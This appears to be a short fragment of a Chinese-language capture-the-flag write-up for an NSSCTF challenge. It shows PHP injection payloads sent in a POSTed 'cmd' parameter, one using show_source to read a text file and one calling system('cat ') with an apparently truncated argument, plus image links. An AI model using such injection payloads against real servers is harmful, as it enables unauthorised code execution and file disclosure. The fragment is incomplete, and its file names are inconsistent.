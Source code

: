 post传入cmd参数

![image-20250808100037977](./NSSCTF-4.assets/image-20250808100037977.png)

查看bbbbbbb.txt

```
cmd=${@show_source('bbbbbbbbb.txt')};
cmd=system('cat ');
```

![image-20250808101427660](./NSSCTF-4.assets/image-20250808101427660.png)
